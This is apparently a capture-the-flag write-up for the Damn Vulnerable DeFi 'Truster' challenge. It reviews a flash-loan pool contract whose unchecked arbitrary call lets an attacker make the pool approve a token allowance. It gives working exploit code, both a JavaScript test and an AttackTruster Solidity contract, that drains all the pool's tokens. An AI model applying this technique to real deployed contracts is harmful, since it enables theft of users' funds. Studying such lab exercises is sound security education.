 ## 1) Challenge

> <cite>More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free. </cite>
> <cite>Currently the pool has 1 million DVT tokens in balance. And you have nothing. </cite>
> <cite>But don't worry, you might be able to take them all from the pool. In a single transaction. </cite>([link](https://www.damnvulnerabledefi.xyz/challenges/3.html))

Challenge created by [@tinchoabbate](https://twitter.com/tinchoabbate).


## 2) Code Review

Let's start by analyzing how the flash loads are provided.
`TrusterLenderPool` contract ([source code](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/contracts/truster/TrusterLenderPool.sol)).

```solidity

contract TrusterLenderPool is ReentrancyGuard {

    using Address for address;

    IERC20 public immutable damnValuableToken;

    constructor (address tokenAddress) {
        damnValuableToken = IERC20(tokenAddress);
    }

    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }

}

```

The `flashLoan` function:
- checks if the token balance is `>=` the amount we want to borrow (line `33`)
- transfers the borrowed amount to the borrower
- calls `functionCall` from the `Address` library on a target address by providing data bytes as a parameter (line `36`). `flashLoan` expects that `functionCall` will call another function contract that will be responsible for paying back the flash loan
- checks the amount is paid back (line `39`)

Our goal is to take all the `1 million DVT` from the pool.

#### What happens when we call `functionCall`?

When calling `functionCall`, the `msg.sender` will be the pool contract. Also, since we can control the target address and the data to be sent (`target` and `data` parameters, respectively), we can call any function on any contract and have the `msg.sender` as the pool contract.

#### How can we make the pool send us all the DVT tokens?

We can use the pool to call any contract function, which means we can also call functions on the DVT token itself. For example, we can call `transfer` from the ERC-20 token (the `target` address) and sends all its balance to our contract/address.
Unfortunately, the function will fail because the condition at line `39` will be false (the `balacenceAfter` will be less that the original balance) :sob:.


Remember challenge 1 (if not here is the [link](DamnVulnerableDeFi_01_unstoppable.md))? `transfer` is not the only function to transfer tokens, there is also `transferFrom`. However, before calling `transferFrom`, we need to first `approve` the spender to spend the caller tokens. 

In order to get all the tokens from the pool, we can call the `flashLoan` function with the following parameters:
- set the `borrowAmount` equal `0` (there are no checks on the `borrowAmount`), so there will be no token transfer and all the `require` in the function will be satisfied
- set the `borrower` to be the attacker contract
- set the `target` address to be the DVT address, so that the pool will call its `approve` function
- set the `data` to be the encoding of the `approve` function with `target` address set to the attacker address and the `amount` to be the pool balance

Finally, since we have have been approved by the pool to spend all its token, we can call the `transferFrom` and transfer all the token's pool to us.

## 3) Solution
Like the previous challenge, this one can be solved in multiple ways.

### 3.1) Solution 1: multiple transactions

We can implement the above steps by executing `2` transactions: one for calling the `flashLoan` and one for `transferFrom`.

`truster.challenge.js`:
```javascript

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */

        const iface = new ethers.utils.Interface([
            "function approve(address spender, uint256 amount)",
        ]);
        let approve = iface.encodeFunctionData("approve", [attacker.address, TOKENS_IN_POOL]);
        await this.pool.connect(attacker).flashLoan(
            0,                  
            attacker.address,   
            this.token.address, 
            approve             
        )
        
        await this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, TOKENS_IN_POOL);

    });


```

### 3.2) Solution 2: single transaction

The same solution can be executed in a single transaction by using an attack contract. In this case we will first approve our contract to spend the pool tokens and then we will transfer them to our address.

`AttackTruster.sol`
```solidity

// SPDX-License-Identifier: MIT
// ...
/**
 * @title AttackTruster
 */

contract AttackTruster {
  
    IPool pool;
    IDamnValuableToken token;
    address attacker;

    constructor(address _pool, address _token) {
        pool = IPool(_pool);
        token = IDamnValuableToken(_token);
        attacker = msg.sender;
    }

    function run() public {

      uint256 amount = token.balanceOf(address(pool));

      uint256 borrowAmount = 0;
      address borrower = attacker;
      address target = address(token);
      bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), amount);

      pool.flashLoan(borrowAmount, borrower, target, data);

      token.transferFrom(address(pool), borrower, amount);

    }

}

```

`truster.challenge.js`:

```javascript

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */


        // single transaction
        const attack = await (await ethers.getContractFactory('AttackTruster', attacker)).deploy(this.pool.address, this.token.address);
        await attack.run();
        
    });


```

You can find the complete code [here](https://github.com/dellalibera/damn-vulnerable-defi-solutions/blob/master/test/truster/truster.challenge.js) and [here](https://github.com/dellalibera/damn-vulnerable-defi-solutions/blob/master/contracts/attacker-contracts/AttackTruster.sol).


## 4) References

- [Address functionCall](https://docs.openzeppelin.com/contracts/3.x/api/utils#Address-functionCall-address-bytes-)
- [approve](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20-approve-address-uint256-)